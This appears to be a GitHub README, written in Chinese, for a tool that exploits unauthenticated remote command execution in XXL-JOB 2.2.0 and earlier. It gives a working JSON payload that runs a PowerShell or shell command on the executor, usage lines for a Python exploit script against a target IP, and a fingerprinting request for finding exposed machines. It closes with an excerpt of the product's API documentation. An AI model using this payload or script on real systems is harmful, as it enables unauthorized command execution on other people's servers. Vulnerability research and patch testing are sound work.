 # xxl-job-rce

XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。
在xxl-job<= 2.2.0版本存在未授权命令执行

官方GitHub地址：https://github.com/xuxueli/xxl-job
官方文档https://www.xuxueli.com/xxl-job/

## payload:
```
{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```
##工具使用截图
###用法:
python3 xxl-job-rce.py [IP Address] -p [Prot(default 9999)] -c [Command] -m[Ccript Method(default powershell)]'
python3 xxl-job-poc.py 192.168.229.146 -c calc
python3 xxl-job-poc.py 192.168.229.146 -c calc -m shell -p 9999

![image](https://github.com/mrknow001/xxl-job-rce/blob/main/xxl-job-powershell.png)
![image](https://github.com/mrknow001/xxl-job-rce/blob/main/xxl-job-python.png)


## 根据异常报错指纹-快速发现目标机器

```
POST /run HTTP/1.1
Host: 127.0.0.1:9999
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```
```
HTTP/1.1 200 OK
content-type: text/html;charset=UTF-8
content-length: 646

{
  "code": 500,
  "msg": "request error:java.lang.NullPointerException
	at com.xxl.job.core.biz.impl.ExecutorBizImpl.run(ExecutorBizImpl.java:49)
	at com.xxl.job.core.server.EmbedServer$EmbedHttpServerHandler.process(EmbedServer.java:201)
	at com.xxl.job.core.server.EmbedServer$EmbedHttpServerHandler.access$200(EmbedServer.java:138)
	at com.xxl.job.core.server.EmbedServer$EmbedHttpServerHandler$1.run(EmbedServer.java:166)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1142)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:617)
	at java.lang.Thread.run(Thread.java:745)
"
}
```

## 官方公开api
### 调度中心 RESTful API

API服务位置：com.xxl.job.core.biz.AdminBiz （ com.xxl.job.admin.controller.JobApiController ）
API服务请求参考代码：com.xxl.job.adminbiz.AdminBizTest

#### 任务回调
```
    说明：执行器执行完任务后，回调任务结果时使用
    ------
    地址格式：{调度中心跟地址}/callback
    Header：
        XXL-JOB-ACCESS-TOKEN : {请求令牌}
    请求数据格式如下，放置在 RequestBody 中，JSON格式：
        [{
            "logId":1,              // 本次调度日志ID
            "logDateTim":0,         // 本次调度日志时间
            "executeResult":{
                "code": 200,        // 200 表示任务执行正常，500表示失败
                "msg": null
            }
        }]
    响应数据格式：
        {
          "code": 200,      // 200 表示正常、其他失败
          "msg": null      // 错误提示消息
        }
```


